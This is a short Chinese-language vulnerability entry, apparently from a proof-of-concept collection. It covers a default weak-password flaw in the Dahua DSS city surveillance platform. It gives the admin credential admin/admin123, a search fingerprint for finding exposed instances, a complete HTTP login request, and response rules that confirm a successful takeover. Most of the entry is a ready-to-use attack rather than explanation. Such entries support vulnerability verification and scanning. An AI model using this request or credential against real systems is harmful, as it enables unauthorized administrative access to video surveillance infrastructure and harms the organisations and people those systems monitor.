 ﻿# 大华DSS城市安防监控平台弱口令漏洞

> 更新时间：2024-04-29

> 漏洞编号：

> 漏洞说明：大华DSS城市安防监控平台是一个在通用安防视频监控系统基础上设计开发的系统。该平台/config/user_toLoginPage.action配置系统后台存在弱口令漏洞，攻击者可以通过此漏洞获取管理员对应权限。
弱口令：admin/admin123

> 漏洞特征：app="dahua-DSS"

> 验证脚本：HTTP

```
POST /config/user_login.action?nowTime=1714373664321 HTTP/1.1
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Cookie: JSESSIONID=C5723636787E1ACB687D6206ECCD071F

userBean.loginName=admin&userBean.loginPass=dc0134141ec9319b6b4a00a75fc6a6f5
```

> 响应代码特征：200

> 响应内容特征：^(?!.*?用户名或密码错误).*?$

> 上传文件定位：

> 验证文件来源：大华DSS城市安防监控平台弱口令漏洞.poc

